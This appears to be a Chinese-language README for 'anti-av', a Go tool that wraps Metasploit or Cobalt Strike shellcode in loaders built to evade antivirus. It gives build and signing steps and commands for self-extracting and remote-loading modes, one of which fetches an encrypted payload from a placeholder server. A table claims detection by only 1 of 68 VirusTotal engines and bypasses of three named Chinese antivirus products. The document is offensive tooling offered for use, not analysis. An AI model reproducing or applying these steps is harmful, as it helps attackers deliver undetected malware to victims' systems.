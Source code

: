 # ANTI-AV



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或 linux环境
2、安装交叉编译 mingw64
3、安装签名 osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build
```



## 使用方案

### 1、binary自解压shellcode
```bash
./anti-av -l binary -sc ~/Desktop/payload.bin 
```



### 2、binary远程加载shellcode

> STEP1: 生成加密payload (dist目录下生成payload.e)

```bash
./anti-av  -e ~/Desktop/payload.bin 
```
> STEP2: 上传payload.e到服务器

```
略
```

> STEP3: 制作loader

```bash
./anti-av -sc http://x.x.x.x/payload.e 
```



## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 |
| ---- | ---- | ----------- | -------- |
| 1/68 | √    | √           | √        |


